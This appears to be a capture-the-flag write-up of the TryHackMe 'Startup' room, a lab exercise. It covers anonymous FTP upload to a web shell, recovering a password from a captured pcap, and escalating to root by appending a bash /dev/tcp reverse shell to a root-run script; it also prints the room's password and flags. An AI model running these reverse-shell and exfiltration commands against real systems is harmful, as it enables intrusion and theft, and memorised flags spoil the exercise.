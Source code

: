 ```yaml
---
title: "Startup"
date: 2022-09-20T16:00:31+01:00
draft: false
categories:
  - TryHackMe
---
```


<img src="startup.png" width=200 height=200 alt="startup">

## Enumeration

### nmap

```
PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp [NSE: writeable]
| -rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
|_-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to 10.8.226.203
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 b9:a6:0b:84:1d:22:01:a4:01:30:48:43:61:2b:ab:94 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDAzds8QxN5Q2TsERsJ98huSiuasmToUDi9JYWVegfTMV4Fn7t6/2ENm/9uYblUv+pLBnYeGo3XQGV23foZIIVMlLaC6ulYwuDOxy6KtHauVMlPRvYQd77xSCUqcM1ov9d00Y2y5eb7S6E7zIQCGFhm/jj5ui6bcr6wAIYtfpJ8UXnlHg5f/mJgwwAteQoUtxVgQWPsmfcmWvhreJ0/BF0kZJqi6uJUfOZHoUm4woJ15UYioryT6ZIw/ORL6l/LXy2RlhySNWi6P9y8UXrgKdViIlNCun7Cz80Cfc16za/8cdlthD1czxm4m5hSVwYYQK3C7mDZ0/jung0/AJzl48X1
|   256 ec:13:25:8c:18:20:36:e6:ce:91:0e:16:26:eb:a2:be (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBOKJ0cuq3nTYxoHlMcS3xvNisI5sKawbZHhAamhgDZTM989wIUonhYU19Jty5+fUoJKbaPIEBeMmA32XhHy+Y+E=
|   256 a2:ff:2a:72:81:aa:a2:9f:55:a4:dc:92:23:e6:b4:3f (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPnFr/4W5WTyh9XBSykso6eSO6tE0Aio3gWM8Zdsckwo
80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Maintenance
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

### ffuf

```
.htpasswd               [Status: 403, Size: 277, Words: 20, Lines: 10]
.htaccess               [Status: 403, Size: 277, Words: 20, Lines: 10]
.hta                    [Status: 403, Size: 277, Words: 20, Lines: 10]
[Status: 200, Size: 808, Words: 136, Lines: 21]
files                   [Status: 301, Size: 312, Words: 20, Lines: 10]
index.html              [Status: 200, Size: 808, Words: 136, Lines: 21]
server-status           [Status: 403, Size: 277, Words: 20, Lines: 10]
```

If ftp is open its worth checking

haha nice meme...now we know Maya is a cool person

<img src="important.jpg" alt="important.jpg" width=300/>

`notice.txt`

```
Whoever is leaving these damn Among Us memes in this share, it IS NOT FUNNY. People downloading documents from our website will think we are a joke! Now I dont know who it is, but Maya is looking pretty sus.
```

same files are found in the `files` directory of website by the way

```
binwalk important.jpg

## DECIMAL HEXADECIMAL DESCRIPTION

0 0x0 PNG image, 735 x 458, 8-bit/color RGBA, non-interlaced
57 0x39 Zlib compressed data, compressed
```

Expected that

I go back to ftp folder and notice that i missed a hidden file

but it just says `'test'` so not useful

```
150 Here comes the directory listing.
drwxr-xr-x 3 65534 65534 4096 Nov 12 2020 .
drwxr-xr-x 3 65534 65534 4096 Nov 12 2020 ..
-rw-r--r-- 1 0 0 5 Nov 12 2020 .test.log
drwxrwxrwx 2 65534 65534 4096 Nov 12 2020 ftp
-rw-r--r-- 1 0 0 251631 Nov 12 2020 important.jpg
-rw-r--r-- 1 0 0 208 Nov 12 2020 notice.txt
226 Directory send OK.
```

But hey we have write permission on ftp folder

lol...As it's also accessible via website we can execute a shell

And we are already in

We have no permssion to access lennie folder so I wander inside

As we start from `/` we get `recipe.txt`

```
www-data@startup:/$ cat recipe.txt
cat recipe.txt
Someone asked what our main ingredient to our spice soup is today. I figured I can't keep it a secret forever and told him it was love.
```

There is also an `incidents` folder

```
www-data@startup:/incidents$ ls
ls
suspicious.pcapng
```

we get that pcap file with netcat

```
nc 10.8.226.203 2311 < suspicious.pcapng //on remote
nc -lnvp 2311 > suspicious.pcapng // on local (listen to)
```

Mostly gibberish as expected (its supposed to be a job for wiireshark)

```
*ôe*ôe[sudo] password for www-data:         d       œ=:wé.ÞD   D               E  4@ @ÕÀšÀš\æ¿Çó/5²â @®  
*ôe*ôed      x       Ÿ=:cÑOW   W              E  G@ @ÁÀšÀš\æ¿Çó/5²â @®   
*ôl*ôec4ntg3t3n0ughsp1c3
 x      h       Ÿ=:FyÃOF   F               E  6%@ @gJÀšÀšæ\/5²â¿È @®  
*ôl*ôl
  h      d       Ÿ=:ŸÃOD   D               E  4@ @ÓÀšÀš\æ¿È/5²ä @®  
*ôl*ôld             Ÿ=:ÆOÞi   i             E  Y%@ @g&ÀšÀšæ\/5²ä¿È @®²  
*ôuà*ôlsudo: 3 incorrect password attempts
```

`c4ntg3t3n0ughsp1c3` looks like a password

let's find out...and it is!

we can switch user (su) or just ssh as lennie with the creds

`lennie : c4ntg3t3n0ughsp1c3`

FLag

```
$ cat user.txt
THM{not_enough_tartar_sauce}
```

There is also a scripts folder

```
$ cd scripts
$ ls -al
total 16
drwxr-xr-x 2 root root 4096 Nov 12 2020 .
drwx------ 5 lennie lennie 4096 Nov 15 16:23 ..
-rwxr-xr-x 1 root root 77 Nov 12 2020 planner.sh
-rw-r--r-- 1 root root 1 Nov 15 16:26 startup_list.txt
```

Boy a sh script belonging to Root and we can execute it...but not write to it

```
$ cat planner.sh
#!/bin/bash
echo $LIST > /home/lennie/scripts/startup_list.txt
/etc/print.sh
```

the script refer to another one and I am pretty sure we can modify this one

```
$ cat /etc/print.sh
#!/bin/bash
echo "Done!"
```

yup it belongs to lennie and we are lennie

it basically runs the print.sh just to say it is done?? XD

let's add a shell

`echo "bash -c 'exec bash -i &>/dev/tcp/10.8.226.203/2311 <&1'" >> print.sh`

maybe its a cron because I didnt even need to run `./planner.sh`

I was immediately root on my netcat listenner

```
root@startup:~# cat root.txt
cat root.txt
THM{add_schezuan_sauce}
```

I wonder who that pretty sus Maya is

Funny how the meme named important.jpg was not even remotely important

Merely a distraction

